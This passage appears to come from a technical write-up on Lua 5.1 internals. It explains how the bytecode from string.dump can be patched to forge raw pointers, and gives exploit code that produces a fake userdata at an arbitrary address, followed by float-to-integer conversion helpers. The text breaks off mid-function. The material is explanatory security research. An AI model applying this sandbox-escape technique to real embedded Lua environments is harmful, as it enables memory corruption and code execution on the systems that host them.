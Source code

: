At this point, the remaining tricks of the `inner` function are the numeric constants `2^52`, `16`, and `20`. The result of a string concatenation is a `TValue` containing a `TString*`, but this `TValue` has the interesting property that the 32 unused bits following the `TString*` are copied from the leftmost operand of the concatenation. As such, when the leftmost operand in a concatenation is `2^52`, the resulting `TValue` can go through `asnum` and then have `2^52` subtracted to yield the `TString*`. The next value, `16` is the size of all of the fields in a `TString` prior to the actual string data. The final value, `20`, is the length of the string `4.5035996273705e+015`, with this being the string representation of `2^52`.

On x64, `sizeof(TString) = 24`, so this turns into:

```lua
loadstring(string.dump(function()
  local magic = nil
  local function middle()
    local print = print
    local lud, upval
    local function inner()
      lud = ub8(0xDEADBEEF) .. ub4(2) .."padd"
      upval = "widenext".."t".."m".."6!pad6".. ub8(asnum(lud) + 24)
      local upval_ptr = ub8(asnum(upval) + 24)
      magic = "AAAABBBB" .. upval_ptr .. upval_ptr
    end
    inner()
    print(magic) --> userdata: DEADBEEF
  end
  middle()
end):gsub("(\100%z%z%z)....", "%1\0\0\0\1", 1))()
```
--------------------------------------------------------------------------------

Before the final reveal, two functions of interest are needed:

```lua
f2ii = function(x) -- Convert double to uint32_t[2]
  if x == 0 then return 0, 0 end
  if x < 0 then x = -x end

  local e_lo, e_hi, e, m = -1075, 1023
  while true do -- this loop is math.frexp
    e = (e_lo + e_hi)
    e = (e - (e % 2)) / 2
    m = x / 2^e
    if m < 0.5 then e_hi = e elseif 1 <= m then e_lo = e else break end
  end

  if e+1023 <= 1 then
    m = m * 2^(e+1074)
    e = 0
  else
    m = (m - 0.5) * 2^53
    e = e + 1022
  end

  local lo = m % 2^32
  m = (m - lo) / 2^32
  local hi = m + e * 2^20
  return lo, hi
end

ii2f = function(lo, hi) -- Convert uint32_t[2] to double
  local m = hi % 2^20
  local e = (hi - m) / 2^20
  m = m * 2^32 + lo

  if e ~= 0 then
```

[IEEE754-1985]: http://en.wikipedia.org/wiki/IEEE_754-1985#Representation_of_numbers
[vstruct]: https://github.com/ToxicFrog/vstruct/blob/master/vstruct/io/f.lua